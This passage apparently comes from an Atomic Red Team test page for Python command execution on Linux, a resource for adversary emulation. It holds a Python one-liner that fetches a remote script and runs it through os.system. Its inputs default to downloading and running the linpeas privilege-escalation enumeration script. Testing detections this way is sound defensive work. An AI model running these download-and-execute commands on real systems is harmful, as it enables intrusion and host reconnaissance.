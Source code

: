 
#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python2)
$which_python -c 'import requests;import os;url = "#{script_url}";malicious_command = "#{executor} #{payload_file_name} #{script_args}";session = requests.session();source = session.get(url).content;fd = open("#{payload_file_name}", "wb+");fd.write(source);fd.close();os.system(malicious_command)'
```

#### Cleanup Commands:
```sh
rm #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Verify if python is in the environment variable path and attempt to import requests library.
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```




<br/>
<br/>

## Atomic Test #2 - Execute Python via scripts (Linux)
Create Python file (.py) that downloads and executes shell script via executor arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 6c4d1dcb-33c7-4c36-a8df-c6cfd0408be8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Python script name | Path | T1059.006.py|
| script_url | Shell script public URL | String | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | String | T1059.006-payload|
| executor | Payload or script interpreter / executor | String | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | String | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|
